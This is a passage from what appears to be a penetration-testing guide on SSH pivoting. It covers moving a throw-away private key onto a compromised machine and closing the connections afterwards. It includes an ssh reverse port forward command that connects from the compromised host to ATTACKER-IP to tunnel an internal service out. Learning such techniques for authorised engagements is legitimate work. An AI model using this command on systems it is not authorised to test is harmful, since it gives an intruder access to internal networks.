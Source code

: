 All that's left is to ==transfer the PRIVATE KEY to the TARGET machine!== This is not the 'best practice' as an attacker, which is why we created these steps to generate 'throw-away' SSH keys. Make sure to delete these keys once the engagement is over!

Once the PRIVATE KEY is transferred, we can connect back with a reverse port forward using this command on the COMPROMISED-TARGET-IP machine:

```bash
ssh -R 8989:INTERNAL-TARGET-IP:INTERNAL-TARGET-PORT USER@ATTACKER-IP -i KEYFILE -fN
```

### Closing pivoting connections

To close any of these connections, type ```ps aux | grep ssh``` into the terminal of the machine that created the connection, find the Process ID and ```sudo kill PID``` .
